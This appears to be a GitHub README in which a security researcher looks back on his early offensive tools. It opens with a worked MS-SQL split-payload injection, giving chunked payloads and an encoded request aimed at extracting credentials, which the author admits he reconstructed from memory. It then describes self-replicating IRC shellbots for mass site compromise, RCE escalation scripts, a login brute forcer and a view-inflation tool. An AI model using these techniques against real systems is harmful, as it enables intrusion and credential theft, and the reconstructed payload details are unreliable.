 ## SQLIs

### SQLIs/SQLi Split-Payload Exploit - [Link](https://github.com/gosirys/Memorabilia/tree/main/SQLIs/mssql-dump-splitPayload.pl)

This was coded to exploit a tricky SQL Injection vulnerability I found in one of my earliest pentest in 2011. The affected  resource had 6 vulnerable parameters, each one with a max-length enforced server-side causing all payloads being truncated after x chars.
Since it was a error-based SQLi, I could see the resulting query when it was failing due to syntax errors caused by the input truncation.
This allowed me to discover that all the parameters were ending in the same SQL query, therefore to successfully exploit the vulnerability technically I could have split each payload into smaller chunks, inject each of them in parameters based on their order of appareance in the original query, and use comments to have parts pf the original query ignored and by doing so concatenating each of the injected chunks and so rebuilding the payload.
This was done by adding a "start comment" at the end of a parameter's payload's chunk, and a "end comment" at the beginning of following parameter's injection.

An example of what the original query could have looked like (yes I lost the original report and all I have left is the exploit code which I coded 10 years ago):

```sql
SELECT x,z FROM TABLE WHERE Param1 = '$input_1' AND Param2 = '$input_2' AND Param3 = '$input_3' AND Param4 = '$input_4' AND Param5 = '$input_5' AND Param6 = '$input_6' ORDER BY x DESC
```

An example payload of interest would be to disclose sensitive columns from a specific table and database. For instance, following a prior enumeration of the targeted database's schema, one might want to obtain records of the columns `user,pass` from the table `users` of database currently in use by the application.

Such a payload could look like the following:
```sql
' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```

A successful injection could then be achieved by splitting the payload in `x` chunks based on the inputs' length limitation and amount of affected parameters. In this case, 6 parameters were vulnerable, and according to the exploit I wrote it seems that all inputs had a different maximum length enforced server-side. In the specific case of this application, the payload could be split amongtst the parameters as shown below:

Param1=`' union select top 1 null,/*`
Param2=`*/convert(int,user,pass) from /*`
Param3=`*/users_table where user,pass/*`
Param4=`*/ not /*`
Param5=`*/in /*`
Param6=`*/(select top 1 user,pass from users_table)--`

The final URL would then be something like:
```
https://site.com/vuln_resource?Param1=%27%20union%20select%20top%201%20null%2C%2F%2A&Param2=%2A%2Fconvert%28int%2Cuser%2Cpass%29%20from%20%2F%2A&Param3=%2A%2Fusers_table%20where%20user%2Cpass%2F%2A&Param4=%2A%2F%20not%20%2F%2A&Param5=%2A%2Fin%20%2F%2A&Param6=%2A%2F%28select%20top%201%20user%2Cpass%20from%20users_table%29--
```

Once requested, the injected chuncks would end up in the affected SQL query, which would then become something like:
```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,/*' AND Param2 = '*/convert(int,user,pass) from /*' AND Param3 = '*/users_table where user,pass/*' AND Param4 = '*/ not /*' AND Param5 = '*/in /*' AND Param6 = '*/(select top 1 user,pass from users_table)--'
```

Once processed by the DBMS, in this case it was MS-SQL, the parts in between comments would be ignored making the final query to be executed the one below:

```sql
SELECT x,z FROM TABLE WHERE Param1 = '' union select top 1 null,convert(int,user,pass) from users_table where user,pass not in (select top 1 user,pass from users_table)--ORDER BY x DESC
```

The query would cause a MS-SQL error - forced by asking the DBMS to convert columns of type varchar to Int: `convert(int,user,pass)` - to be displayed on the page and disclose the username and passoword of the first user in the `users_table` table.

That is it, the rest of the logic including all queries to extract all databases, tables and columns and final dump of columns/tables of interest can be found in the exploit.

***Disclaimer***
The above explanation was written over 10 years after the vulnerability was found and its exploit written - therefore do not expect every single bit to perfectly accurate as I had to extrapolate the inner workings by re-reading my exploit code. However should be enough to give an idea of it all.
Moreover, even though SQLmap already existed at the time, I'm not quite sure it could be used to semi-automatically exploit a vulnerability of this kind - hence I had to write all this to achieve the objective.











###  SQLIs/yInjector - [Link](https://github.com/gosirys/Offensive/blob/main/SQLIs/yInjector/v1.5/yinjector.pl)
#### History
I developed this tool sometime in 2010. Having a thing for doing source code review and SQL Injections I thought I to write my own tool to help me identify and exploit this class of vulnerabilities.

#### Features
* HTTP Methods: GET/POST with support for Cookies
* DBMS: limited to MySQL
* HTTP Proxy Support
* Log File for debugging
* Main Features:
	* Automatic detection of vulnerable parameters
	* Payloads style attack: Error Based and Union Select
	* Automatic payload creation 
	* Assisted and automated database(s)* rows dump
* Advanced Exploitation modules:
	* Internal Absolute File System Path identification module - required for the RCE module
	* Local File Disclosure module by leveraging FILE privileges and MySQL `load_file` function
	* Remote Code Execution module by abusing FILE privileges MySQL `into dumpfile` function
	* MD5 Hashes assitive cracking through Online password cracking services 

#### Disclaimer
Development of this tool stopped right after I discovered how powerful SQLmap had become as right in these time it already supported several DBMS and Injection techniques (Error, Boolean Blind, Time-Based Blind, Stacked, etc).
Kudos to the guys behind [sqlmap](https://github.com/sqlmapproject/sqlmap)



## IRC-Bots

###  IRC-Bots/v6 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v6-IRC-Shellbot/v6.txt)
#### Some History
Around 2007-2010 Remote File Inclusion (RFI) was a widespread vulnerability, mostly affecting Web Applications written in PHP. It was around 2007 that I stumbled upon some clandestines underground IRC servers ran by questionable individuals the likes of "Mafia<something>" (can't recall his nick) - where they had IRCBots running in their channels. Those bots were coded to scan the web using dorks to find sites built with certain CMS for which there was a known vulnerability and a working PoC - and run the PoC against every search's result to hack as many sites as possible. I remember liking the colors of those bots and that some of these were sold for thousands of Euros. I then happened to find the source code of one of these bots left on a hacked server. Shortly after i started practing by modding them and ultimately ended up learning Perl to write my first bot (v5) - followed by its main successor the v6. At the time, the v6 became one of the most widely used IRC shellbots in circulation.
	
#### Main features

* Vulnerability classes supported:
	* SQL Injection
	* RFI (Remote File Inclusion)
	* LFI/LFD (Local File Inclusion/Disclosure)
	* RCE (Remote Code Execution)
* Search Engines:
	* Mass Scan, Google, AlltheWeb, Yahoo, Msn
	* TLDs: .at/.com.au/.com.br/.ca/.ch/.cn/.de/.dk/.es/.fr/.it/.co.jp/.com.mx/.co.uk
	* Bypass support: Google and Yahoo
* Advanced Features:
	* Integrated OS-shell, RCE on the box running the bot
	* Security Mode to protect "dangerous" functions (OS-Shell)
	* Spread Mode, enable/disable bot's self replication on sites vulnerable to RFI/RCE
	* Single Spread Mode, to enable its self-replication on individual sites


### IRC-Bots/v5 Shellbot - [Link](https://github.com/gosirys/Offensive/blob/main/IRC-Bots/v5-IRC-Shellbot/v5_01.txt)

This was my first ever program in Perl, which I coded discovering the source code of one of the popular bots at the time and learning how poorly it was coded. Similar in functionalities to its successor (v6 Shellbot) but with fewer features and more bugs.



## Misc

### Misc/From LFI to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/LFI2RCE.pl)
This tool was coded to leverage a technique known as Log Poisoning in combination with Local FIle Inclusion vulnerabilities. By injecting PHP code in the URL query string or User-Agent, some insecured Apache configuration would store the PHP code without any sanitisation in log files. The Local File Inclusion vulnerability would then be used against a dictionary of typical paths of Apache log files. Finding the correct path of the poisoned log file would then result in Remote Code Execution.


### Misc/From SQL Injection to RCE - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/SQLi2RCE.pl)
Simple script to escalate SQL Injection vulnerabilities into Remote Code Execution.
The tool worked by requesting a non-existent path on the affected site, to then use (if privileges allowed) the MySQL `load_file` function through the provided SQL Injection PoC, running through a dictionary of typical internal paths for Apache's error logs. Should the error log be found, the tool would then extract the absolute file system internal path looking for the non-esisting path initially requested. By knowing the exact internal file system path of the document root of the affected application, the tool would then try to use the MySQL `into dumpfile` function to create a PHP backdoor in the site's document root.


### Misc/Views Freaker - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/views_freaker.pl)
Simple script to issues many HTTP requests to a given page through a multitude of Proxies.
Mainly used to increase the "hits/views" on websites pages.


### Misc/Remote Bruter k7 - [Link](https://github.com/gosirys/Offensive/tree/main/Misc/RemoteBruter-k7.pl)
A tool to perform login bruteforce through dictionary-based attacks against FTP, TELNET and SSH services.
Supporting parallel-processing and useable through a CLI interface or as IRC bot.
  
